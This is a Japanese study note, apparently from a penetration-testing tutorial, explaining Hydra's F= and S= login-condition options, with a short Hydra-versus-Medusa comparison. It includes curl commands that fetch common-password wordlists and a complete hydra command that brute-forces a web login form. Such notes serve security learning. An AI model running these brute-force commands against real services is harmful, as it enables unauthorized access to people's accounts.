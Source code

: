 ###### 「F=」と「S=」オプション
- F=（Failure Condition）とは？
	- 「この文字列がレスポンスに含まれていたらログイン失敗」と判断するための条件
	- 多くのログインフォームは失敗時に何らかのエラーメッセージを返す
		- 例：`"Invalid credentials"`, `"Incorrect password"`, `"Login failed"` など
	- Hydraはこの文字列を探して、失敗したら次の組み合わせに進む
	- 使用例：
	```bash
	hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
	```

- S=（Success Condition）とは？
	- 「この文字列がレスポンスに含まれていたらログイン成功」と判断するための条件
	- 成功時に表示されるキーワードや、リダイレクト（HTTP 302）をチェックするのに使う
		- 例：`"Welcome"`, `"Dashboard"`, `S=302` など
	- S=を使うのは、**失敗メッセージがない** or **成功時のパターンが明確なとき**に便利

	- 使用例（① 成功時に「Dashboard」と表示される）：
	```bash
	hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"
	```

	- 使用例（② 成功時にHTTPステータスコード302でリダイレクト）：
	```bash
	hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
	```

- F= と S= の使い分け
	- ほとんどのケースでは **F=（失敗条件）だけ指定**すればOK
	- 特定の成功パターンがあるときや、失敗メッセージが見つからないときに S= を使う
	- **両方併用も可能**（例：`F=Login failed:S=Welcome`）

- チェックポイント（初心者向け）
	- Hydraはレスポンスの「内容」や「ステータスコード」を使って判断している
	- 条件に合わないと正しい結果が出ないので、実験前にブラウザやBurpでしっかり調べよう！

- おまけ：テスト時のポイント
	- 間違ったパスワードでログインして、**エラーメッセージを確認**
	- 正しい情報を入力したときの**レスポンスの違い**を見つける（リダイレクトや文字の変化）

辞書の取得
```shell-session
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```

実行
```shell-session
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```


## medusa
| **項目**       | **Hydra**                  | **Medusa**                     |
| ------------ | -------------------------- | ------------------------------ |
| 💡 特徴        | 柔軟でシンプルなコマンド構文。対応プロトコルが広い。 | 超高速＆並列処理に強い。大量ターゲットの一括スキャンが得意。 |
| 🚀 速度        | 並列処理はあるが、Medusaより若干遅い      | 圧倒的に速い（数千スレッドでも安定）             |
| 🧠 学習コスト     | 初心者向け。わかりやすい構文。            | やや複雑。オプションが多め                  |
| 🛠️ 対応プロトコル  | 50以上対応（Webフォーム、SSH、RDPなど）  | Hydraに近いがやや少なめ（実用的には十分）        |
| 🔁 大量ホスト対応   | スクリプトなどで対応可能               | 複数ホストを一括で簡単に処理できる（-H）          |